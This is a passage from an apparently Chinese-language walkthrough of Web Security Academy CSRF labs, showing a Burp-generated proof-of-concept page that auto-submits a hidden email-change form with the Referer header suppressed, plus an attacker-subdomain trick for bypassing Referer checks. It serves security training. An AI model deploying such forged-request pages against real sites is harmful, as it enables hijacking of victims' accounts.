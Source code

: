 ```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <header>
   <meta name="referrer" content="no-referrer">
 </header>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9f006e0360e6008406314b009300af.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei123&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[![](assets/1705890866-df7d9c7c91c35f59b9c9cdc863a68968.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111817-3984cf94-b5b0-1.png)

随后完成解题，而这里最关键的就是一个通过 header 标签来移除 referer，这个也算是见识到了

[![](assets/1705890866-96881a11ae35343b29e2d830d259b5a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111828-3fab5280-b5b0-1.png)

### 绕过方式 2

#### 场景介绍

部分应用程序使用一种可以绕过的简单方式验证 Referer 标头，例如：如果应用程序验证 Referer 中的域以预期值开头，则攻击者可以将其作为自己域的子域

```plain
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

同样如果应用程序只是验证 Referer 包含其自己的域名，那么攻击者可以将所需的值放在 URL 的其他位置：
